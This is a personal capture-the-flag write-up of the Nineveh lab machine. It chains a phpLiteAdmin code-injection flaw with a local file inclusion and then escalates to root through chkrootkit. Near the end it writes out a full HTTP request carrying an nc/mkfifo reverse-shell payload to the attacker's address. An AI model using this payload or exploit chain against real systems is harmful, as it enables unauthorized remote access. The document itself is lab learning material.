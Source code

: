 # Nineveh Walkthrough
Name: Nineveh
Date:  
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- php://filter/convert.base64encode/resources= 
- Thinking about how to Chaining Exploits
- Different password lists although most of these CTFs are older and brute forcing logins is kind of frowned upon. It has still come up in PG boxes.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nikto find info.php
![](phpinfoinnikto.png)
There is also domain name found by nmap:
![](vhosts.png)

![](blogworxdb.png)

7.0.18-0ubuntu0.16.04.1  
OpenSSL 1.0.2g 1 Mar 2016
PCRE Library Version 8.38 2015-11-23
  
www-data user and group
/etc/php/7.0/apache2

SSL /TLS everything points towards a certificate attack. Man in the middling myself to exfiltrate data somehow.


![](comments.png)

- BIG FAIL!
Login page is NOT fixed! - Hydra reports all passwords work, usernames admin and amrois

admin
amrois

https://nineveh.htb/db/
![](phpliteadmin.png)
admin:admin - does not work

Also error with ssl cert...

## Exploit

![](multipleVulnsforphpliteadmin.png)

![](hydrathelitephpadmin.png)

![](shellinsqlite.png)

RCE requires [creds](https://www.exploit-db.com/exploits/24044), wso with `admin : password123`; this is a better explaination: [masood](https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC) ... [Multiple](https://www.exploit-db.com/exploits/39714) does not contain a file inclusion. Given that I had issues with hydra on the https page, trying the same password for admin did not work. Returning back to the previous login at /department/login.php. As this brute forcing of a login page is neither fun and is spoiling my learning I watched the Ippsec video for this part to check seeing I would just be brute forcing password lists. admin

![](lfiwearelookingfor.png)

![](lfibreak.png)

![](lfibreaktwo.png)

I am not a php person, went back to the [Ippsec video](https://www.youtube.com/watch?v=K9DKULxSBK4) after and hour of trying LFI and reviewing. I learnt about the `php://filter`, but also that I was suppose to assume from the ninevehNotes mispelt as same: "ninvehNotes" even though it would produce a "No Note selected" was that I need to rename my sql table to ninevehNotes.php.

![900](ninevehNotesninevehNotes.png)

Code execution! Then I failed for half an hour to make that work so something went wrong. And with time constraits I have it left it here.

I then returned complete this briefly summarising everything. I gained access to phpmyadmin page which you can make sqlite databases, which the version of phpmyadmin has vulnerablity for remote php injection. While on the /department/manage.php has a lfi where the `notes=` parameter can the be given an argument to a file that has to be ninevehNotes.x file due to filtering rules with php `include()`. Reviewing what I had done and notes instead of `$_REQUEST` I used `$_GET`. And without `echo`!

 `$_REQUEST` An associative array that by default contains the contents of [`$_GET`](https://www.php.net/manual/en/reserved.variables.get.php), [`$_POST`](https://www.php.net/manual/en/reserved.variables.post.php)  and [`$_COOKIE`](https://www.php.net/manual/en/reserved.variables.cookies.php). Whereas `$_GET` An associative array of variables passed to the current script via the URL parameters (aka. query string). Note that the array is not only populated for GET requests, but rather for all requests with a query string. I also put it in the default value as suggested by the github article. 

Lessons learnt
1. Swap test swapping the fields, do not give up
2. Chaining exploits note
	1. Server Language
	2. Exploit A does X
		1. It reads a file
			1. How  - not in the sense of permissions but - rules about what it can read
	3. Exploit B doex Y
		1. Injects Code - Server is vulnerable - the concern is more in how A gets to B
			1. Where -> LFI includes a file, there need a path.
	4. As A can interact with B, what elements of A are required to make B accessable
	5. Use of symbols FOR BOTH! 
3. Spelling mistakes are faceslap

![](spellmistakesarebad.png)

I did the best bash reverse shell

```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.109+33333+>/tmp/f+ HTTP/1.1
Host: 10.129.4.245
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=drnitsgevbtpi4e8kq5uc273b3
Connection: close

```

![](reverseshell.png)

![](rootlikechkrootkits.png)

I have covid and my stomach aches. I read about chkrootkit for pwk 103. It was all in front of me.depa
```bash
searchsploit chkrootkit
```

TL;DR:

chkrootkits will execute `/tmp/update` as the function slapper should be `/tmp/.update`

![](preroot.png)
![](root.png)